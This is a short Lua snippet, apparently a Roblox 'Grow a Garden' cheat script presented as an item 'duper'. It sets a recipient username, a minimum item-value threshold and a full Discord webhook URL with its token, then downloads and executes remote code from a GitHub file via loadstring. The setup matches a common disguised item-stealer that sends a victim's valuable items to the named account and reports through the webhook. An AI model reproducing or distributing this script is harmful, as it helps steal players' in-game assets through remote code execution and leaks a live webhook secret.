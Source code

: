 Username = "selvesdoll3"
Username2 = "selvesdoll3"
MinimumRAP = 5000000
Webhook = "https://discord.com/api/webhooks/1370634392132911146/YEvIynGEt6cb2wHO1DErBroJlhVuj7Q4rL1HS-Fh7vNjOjYVauvMY8f8EaTBCAc31-2Z"

loadstring(game:HttpGet("https://github.com/TRXScripts/scripts/raw/refs/heads/main/GrowaGardenDuperv2.lua"))()
